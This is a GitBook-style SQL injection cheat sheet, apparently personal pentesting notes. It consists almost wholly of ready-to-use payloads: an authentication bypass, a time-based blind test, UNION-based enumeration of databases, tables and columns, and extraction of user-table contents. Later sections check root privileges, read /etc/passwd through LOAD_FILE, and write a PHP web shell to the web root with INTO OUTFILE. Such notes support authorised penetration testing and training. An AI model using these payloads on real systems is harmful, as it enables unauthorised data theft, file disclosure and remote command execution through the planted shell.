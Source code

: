 ```yaml
---
icon: syringe
---
```


# SQLi

{% hint style="info" %}
### <mark style="color:green;">`Python`</mark> <mark style="color:purple;">doesn't need</mark> <mark style="color:orange;">`;`</mark> <mark style="color:purple;">at the end!</mark>
{% endhint %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass" %}
Auth Bypass
{% endembed %}

***

{% hint style="info" %}
### <mark style="color:purple;">Recon</mark>

{% code title="Basic test" %}
```sql
' or 1=1-- -;
```
{% endcode %}

{% code title="Test for blind injection" %}
```sql
' OR SLEEP(5) -- 
```
{% endcode %}

### <mark style="color:purple;">Union</mark>

* <mark style="color:purple;">First, find the number of columns:</mark>

```sql
' order by 1-- -
```

```sql
' order by 1,2-- -
```

* <mark style="color:purple;">Then, detect the number of column using</mark> <mark style="color:orange;">**`Union`**</mark><mark style="color:purple;">:</mark>

```sql
' union select 1-- -;
```

```sql
' union select 1,2-- -;
```

```sql
' union select 1,2,3-- -;
```

```sql
' union select 1,2,3,4-- -;
```

* <mark style="color:purple;">Once you know the number of columns:</mark>

{% code title="Current database" %}
```sql
' union select 1,2,3,database()--;
```
{% endcode %}

{% code title="Database version" %}
```sql
' UNION select 1,@@version,3,4-- -
```
{% endcode %}

{% code title="Current User" %}
```sql
' UNION SELECT 1,user(),3,4-- -
```
{% endcode %}

{% code title="Concatenation" overflow="wrap" %}
```sql
' union select 1,2,3,concat(column1, ':', column2, ':', column3, ':', column4) from user-- -
```
{% endcode %}

#### <mark style="color:orange;">`Information_schema`</mark>

* <mark style="color:purple;">If you want to know how many databases there are:</mark>

{% code title="Information Schema" overflow="wrap" %}
```sql
' union select 1,2,3,concat(schema_name, ':') from information_schema.schemata-- -;
```
{% endcode %}

* <mark style="color:purple;">To look how many tables in a database:</mark>

{% code overflow="wrap" %}
```sql
' union select 1,2,3,concat(table_name, ':') from information_schema.tables where table_schema = 'database'-- -;
```
{% endcode %}

* <mark style="color:purple;">To look how many columns in a table:</mark>

{% code overflow="wrap" %}
```sql
' union select 1,2,3,concat(column_name, ':') from information_schema.columns where table_name = 'table'-- -;
```
{% endcode %}

* <mark style="color:purple;">To look the content of the columns:</mark>

{% code overflow="wrap" %}
```sql
' union select 1,2,3,concat(column1, ':', column2, ':', column3, ':', column4) from user-- -
```
{% endcode %}

### <mark style="color:purple;">Privileges</mark>

{% code title="Checks admin privileges" overflow="wrap" %}
```sql
' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
```
{% endcode %}

{% code title=" Extracting privilege details of the root user" overflow="wrap" %}
```sql
' UNION SELECT 1, grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```
{% endcode %}

{% code title="Find which directories can be accessed" overflow="wrap" %}
```sql
' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```
{% endcode %}

### <mark style="color:purple;">File Injection</mark>

{% code title="Read local file" overflow="wrap" %}
```sql
' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
```
{% endcode %}

{% code title="Write a string to a local file" overflow="wrap" %}
```sql
`select 'file written successfully!' into outfile '/var/www/html/proof.txt
```
{% endcode %}

{% code title="Creates a webshell" overflow="wrap" %}
```sql
' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -`
```
{% endcode %}
{% endhint %}

